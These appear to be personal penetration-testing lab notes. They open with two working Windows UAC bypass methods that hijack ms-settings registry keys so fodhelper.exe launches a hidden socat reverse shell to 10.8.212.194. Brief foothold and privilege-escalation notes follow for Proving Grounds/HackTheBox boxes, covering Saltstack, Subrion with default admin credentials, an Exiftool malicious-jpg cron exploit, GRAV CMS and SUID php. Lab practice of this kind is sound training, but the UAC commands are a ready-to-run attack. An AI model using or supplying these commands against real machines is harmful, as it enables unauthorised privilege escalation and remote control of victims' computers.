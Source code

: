 ```bash

```

## UAC Bypass
- Auto elevation
  - msconfig
  - azman.msc
- Using fodhelper
```bash
# first fire up netcat listener

# method1 
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.212.194:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe

# method2
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.212.194:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
```

# PG Grounds & HTB
## Linux Boxes

**Twiggy**
  - Foothold:
    - curl -v http://192.168.x.x:3000/
    - [Saltstack Exploit]()
  - No privesc

**Exfiltrated**
  - Foothold:
    - Subrion Exploit with admin:admin credentials
    - Manually uploaded a .phar file
  - PrivEsc:
    - Found a cronjob running every minute
    - /opt/image-exif.sh
    - Exiftool exploit and create malicious jpg file

**Astronaut**
  - Foothold:
    - [GRAV CMS Exploit](https://github.com/CsEnox/CVE-2021-21425/tree/main)
  - PrivEsc:
    - Uncommon setuid binaries
    - [/usr/bin/php7.4 exploit](https://gtfobins.github.io/gtfobins/php/#suid)
